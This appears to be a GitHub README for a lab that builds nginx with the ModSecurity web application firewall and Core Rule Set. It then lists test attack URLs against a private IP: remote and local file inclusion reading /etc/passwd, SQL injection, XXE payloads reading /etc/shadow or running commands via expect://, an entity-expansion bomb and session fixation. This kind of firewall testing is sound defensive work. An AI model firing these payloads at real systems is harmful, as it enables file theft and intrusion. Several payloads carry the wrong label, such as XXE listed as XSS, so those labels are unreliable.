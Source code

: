 # Nginx-OWASP-Top-10
```bash
sudo apt-get install bison build-essential ca-certificates curl dh-autoreconf doxygen flex gawk git iputils-ping libcurl4-gnutls-dev libexpat1-dev libgeoip-dev liblmdb-dev libpcre3-dev libpcre++-dev libssl-dev libtool libxml2 libxml2-dev libyajl-dev locales pkg-config wget zlib1g-dev zlibc libgd-dev
sudo apt install git 
```
 ```
cd /opt
git clone https://github.com/SpiderLabs/ModSecurity
cd ModSecurity/
git submodule init
git submodule update
./build.sh
./configure
make
make install
cd ..
sudo git clone --depth 1 https://github.com/SpiderLabs/ModSecurity-nginx.git
nginx -v
sudo wget http://nginx.org/download/nginx-1.18.0.tar.gz
ls
sudo tar -xvzmf nginx-1.18.0.tar.gz
cd nginx-1.18.0
nginx -V
./configure --with-cc-opt='-g -O2 -fdebug-prefix-map=/build/nginx-KTLRnK/nginx-1.18.0=. -fstack-protector-strong -Wformat -Werror=format-security -fPIC -Wdate-time -D_FORTIFY_SOURCE=2' --with-ld-opt='-Wl,-Bsymbolic-functions -Wl,-z,relro -Wl,-z,now -fPIC' --prefix=/usr/share/nginx --conf-path=/etc/nginx/nginx.conf --http-log-path=/var/log/nginx/access.log --error-log-path=/var/log/nginx/error.log --lock-path=/var/lock/nginx.lock --pid-path=/run/nginx.pid --modules-path=/usr/lib/nginx/modules --http-client-body-temp-path=/var/lib/nginx/body --http-fastcgi-temp-path=/var/lib/nginx/fastcgi --http-proxy-temp-path=/var/lib/nginx/proxy --http-scgi-temp-path=/var/lib/nginx/scgi --http-uwsgi-temp-path=/var/lib/nginx/uwsgi --with-debug --with-compat --with-pcre-jit --with-http_ssl_module --with-http_stub_status_module --with-http_realip_module --with-http_auth_request_module --with-http_v2_module --with-http_dav_module --with-http_slice_module --with-threads --with-http_addition_module --with-http_gunzip_module --with-http_gzip_static_module --with-http_image_filter_module=dynamic --with-http_sub_module --with-http_xslt_module=dynamic --with-stream=dynamic --with-stream_ssl_module --with-mail=dynamic --with-mail_ssl_module
make modules
apt install libxslt
apt install libgd-dev
./configure --with-cc-opt='-g -O2 -fdebug-prefix-map=/build/nginx-KTLRnK/nginx-1.18.0=. -fstack-protector-strong -Wformat -Werror=format-security -fPIC -Wdate-time -D_FORTIFY_SOURCE=2' --with-ld-opt='-Wl,-Bsymbolic-functions -Wl,-z,relro -Wl,-z,now -fPIC' --prefix=/usr/share/nginx --conf-path=/etc/nginx/nginx.conf --http-log-path=/var/log/nginx/access.log --error-log-path=/var/log/nginx/error.log --lock-path=/var/lock/nginx.lock --pid-path=/run/nginx.pid --modules-path=/usr/lib/nginx/modules --http-client-body-temp-path=/var/lib/nginx/body --http-fastcgi-temp-path=/var/lib/nginx/fastcgi --http-proxy-temp-path=/var/lib/nginx/proxy --http-scgi-temp-path=/var/lib/nginx/scgi --http-uwsgi-temp-path=/var/lib/nginx/uwsgi --with-debug --with-compat --with-pcre-jit --with-http_ssl_module --with-http_stub_status_module --with-http_realip_module --with-http_auth_request_module --with-http_v2_module --with-http_dav_module --with-http_slice_module --with-threads --with-http_addition_module --with-http_gunzip_module --with-http_gzip_static_module --with-http_image_filter_module=dynamic --with-http_sub_module --with-http_xslt_module=dynamic --with-stream=dynamic --with-stream_ssl_module --with-mail=dynamic --with-mail_ssl_module --add-dynamic-module=../ModSecurity-nginx
apt install libxml2 libxslt
apt install libxslt-dev
./configure --with-cc-opt='-g -O2 -fdebug-prefix-map=/build/nginx-KTLRnK/nginx-1.18.0=. -fstack-protector-strong -Wformat -Werror=format-security -fPIC -Wdate-time -D_FORTIFY_SOURCE=2' --with-ld-opt='-Wl,-Bsymbolic-functions -Wl,-z,relro -Wl,-z,now -fPIC' --prefix=/usr/share/nginx --conf-path=/etc/nginx/nginx.conf --http-log-path=/var/log/nginx/access.log --error-log-path=/var/log/nginx/error.log --lock-path=/var/lock/nginx.lock --pid-path=/run/nginx.pid --modules-path=/usr/lib/nginx/modules --http-client-body-temp-path=/var/lib/nginx/body --http-fastcgi-temp-path=/var/lib/nginx/fastcgi --http-proxy-temp-path=/var/lib/nginx/proxy --http-scgi-temp-path=/var/lib/nginx/scgi --http-uwsgi-temp-path=/var/lib/nginx/uwsgi --with-debug --with-compat --with-pcre-jit --with-http_ssl_module --with-http_stub_status_module --with-http_realip_module --with-http_auth_request_module --with-http_v2_module --with-http_dav_module --with-http_slice_module --with-threads --with-http_addition_module --with-http_gunzip_module --with-http_gzip_static_module --with-http_image_filter_module=dynamic --with-http_sub_module --with-http_xslt_module=dynamic --with-stream=dynamic --with-stream_ssl_module --with-mail=dynamic --with-mail_ssl_module --add-dynamic-module=../ModSecurity-nginx
make modules
sudo mkdir /etc/nginx/modules
ls
ls objs/
sudo cp objs/ngx_http_modsecurity_module.so /etc/nginx/modules
nano /etc/nginx/nginx.conf 
cd /opt
sudo rm -rf /usr/share/modsecurity-crs
git clone https://github.com/coreruleset/coreruleset /usr/local/modsecurity-crs
ls
mv /usr/local/modsecurity-crs/crs-setup.conf.example /usr/local/modsecurity-crs/crs-setup.conf
mv /usr/local/modsecurity-crs/rules/REQUEST-900-EXCLUSION-RULES-BEFORE-CRS.conf.example /usr/local/modsecurity-crs/rules/REQUEST-900-EXCLUSION-RULES-BEFORE-CRS.conf
mkdir -p /etc/nginx/modsec
cp /opt/ModSecurity/unicode.mapping /etc/nginx/modsec
cp /opt/ModSecurity/modsecurity.conf-recommended /etc/nginx/modsec/modsecurity.conf
ModemManager 
cd ModSecurity
ls
nano /etc/nginx/modsec/modsecurity.conf
nano /etc/nginx/modsec/main.conf
nano /etc/nginx/sites-available/default 
sudo systemctl restart nginx
sudo systemctl status nginx
ifconfig
nano /var/log/modsec_audit.log 
cat  /var/log/modsec_audit.log 
cat  /var/log/nginx/access.log  
```
## Owasp Top 10 Lists
* A01:2021-Broken Access Control 
* A02:2021-Cryptographic Failures
* A03:2021-Injection 
* A04:2021-Insecure Design 
* A05:2021-Security Misconfiguration 
* A06:2021-Vulnerable and Outdated Components 
* A07:2021-Identification and Authentication Failures was previously Broken Authentication 
* A08:2021-Software and Data Integrity Failures 
* A09:2021-Security Logging and Monitoring Failures 
* A10:2021-Server-Side Request Forgery

## Attacs
* RFI http://192.168.1.44/vuln_page.php?file=http://192.168.1.44/backdoor_
    * http://192.168.1.44/some-page?page=http://192.168.1.44/other-page.htm/malicius-code.php
* LFI http://192.168.1.44/vuln.php?data=O:8:%22Example1%22:1:{s:10:%22cache_file%22;s:15:%22../../index.php%22;}
    * http://192.168.1.44/script.php?page=../../../../../../../../etc/passwd
    * http://192.168.1.44/get-files?file=../../../../some dir/some file
* SQLI https://192.168.1.44/?id=3 or 'a'='a'
* Monitoring http://192.168.1.44/var/log/nginx/monitoring.log
* Component http://192.168.1.44/rabia.php?xml=%3C!ENTITY%20ac%20SYSTEM%20%22php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php%22%3E]%3E
* Broken Authentication http://192.168.1.11/authentication.php?JSESSIONID=0000d8eyYq3L0z2fgq10m4v-rt4:-1
* Session Fixation http://192.168.1.44/rabia.php?PHPSESSID=qwrtop95340hhty49gjbc84
* XSS http://192.168.1.44/login.php?xml=%3C!DOCTYPE%20replace%20[%3C!ENTITY%20ent%20SYSTEM%20%22file:///etc/shadow%22%3E%20]%3E
    *  http://192.168.1.44/login.php?xml=%3C!ENTITY%20lol2%20%22&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;%22%3E
    *  http://192.168.1.44/login.php?xml=%3C!ENTITY%20ac%20SYSTEM%20%22php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php%22%3E]%3E
    *  http://192.168.1.44/login.php?xml=%3Csvg%20xmlns=%22http://www.w3.org/2000/svg%22%20xmlns:xlink=%22http://www.w3.org/1999/xlink%22%20width=%22300%22%20version=%221.1%22%20height=%22200%22%3E%20%3Cimage%20xlink:href=%22expect://ls%22%3E%3C/image%3E%20%3C/svg%3E
* Access Controll PHP http://192.168.1.44/login.php?xml=%3C!ENTITY%20ac%20SYSTEM%20%22php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php%22%3E]%3E
* 
  
